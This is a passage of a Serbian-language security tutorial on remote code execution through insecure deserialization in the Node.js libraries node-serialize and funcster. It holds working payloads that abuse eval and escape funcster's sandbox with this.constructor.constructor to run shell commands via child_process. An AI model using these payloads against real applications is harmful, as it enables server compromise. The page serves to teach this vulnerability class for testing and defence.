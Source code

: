 ![](<../../.gitbook/assets/image (298).png>)

Kao što možete videti u poslednjem delu koda, **ako se flag pronađe**, koristi se `eval` za deserijalizaciju funkcije, tako da se u osnovi **korisnički unos koristi unutar funkcije `eval`**.

Međutim, **samo serijalizacija** funkcije **je neće izvršiti** jer bi bilo potrebno da neki deo koda **poziva `y.rce`** u našem primeru, što je veoma **neverovatno**.\
U svakom slučaju, možete jednostavno **izmeniti serijalizovani objekat** dodavanjem zagrada kako biste automatski izvršili serijalizovanu funkciju prilikom deserijalizacije objekta.\
U sledećem delu koda **primetite poslednje zagrade** i kako će funkcija `unserialize` automatski izvršiti kod:

```javascript
var serialize = require('node-serialize');
var test = {"rce":"_$$ND_FUNC$$_function(){ require('child_process').exec('ls /', function(error, stdout, stderr) { console.log(stdout) }); }()"};
serialize.unserialize(test);
```

Kao što je prethodno naznačeno, ova biblioteka će dobiti kod nakon `_$$ND_FUNC$$_` i **izvršiti ga** koristeći `eval`. Stoga, kako biste **automatski izvršili kod**, možete **izbrisati deo kreiranja funkcije** i poslednju zagradu i **samo izvršiti JS jednolinijski kod** kao u sledećem primeru:

```javascript
var serialize = require('node-serialize');
var test = '{"rce":"_$$ND_FUNC$$_require(\'child_process\').exec(\'ls /\', function(error, stdout, stderr) { console.log(stdout) })"}';
serialize.unserialize(test);
```

Možete [**ovde pronaći**](https://opsecx.com/index.php/2017/02/08/exploiting-node-js-deserialization-bug-for-remote-code-execution/) **dodatne informacije** o tome kako iskoristiti ovu ranjivost.

### [funcster](https://www.npmjs.com/package/funcster)

Značajan aspekt **funcster**-a je nedostupnost **standardnih ugrađenih objekata**; oni su van dosega. Ova restrikcija sprečava izvršavanje koda koji pokušava da pozove metode na ugrađenim objektima, što dovodi do izuzetaka poput `"ReferenceError: console is not defined"` kada se koriste komande poput `console.log()` ili `require(something)`.

Uprkos ovoj ograničenosti, moguće je ponovo uspostaviti pun pristup globalnom kontekstu, uključujući sve standardne ugrađene objekte, kroz određeni pristup. Korišćenjem globalnog konteksta direktno, moguće je zaobići ovu restrikciju. Na primer, pristup može biti ponovo uspostavljen korišćenjem sledećeg isečka koda:

```javascript
funcster = require("funcster");
//Serialization
var test = funcster.serialize(function() { return "Hello world!" })
console.log(test) // { __js_function: 'function(){return"Hello world!"}' }

//Deserialization with auto-execution
var desertest1 = { __js_function: 'function(){return "Hello world!"}()' }
funcster.deepDeserialize(desertest1)
var desertest2 = { __js_function: 'this.constructor.constructor("console.log(1111)")()' }
funcster.deepDeserialize(desertest2)
var desertest3 = { __js_function: 'this.constructor.constructor("require(\'child_process\').exec(\'ls /\', function(error, stdout, stderr) { console.log(stdout) });")()' }
funcster.deepDeserialize(desertest3)
```
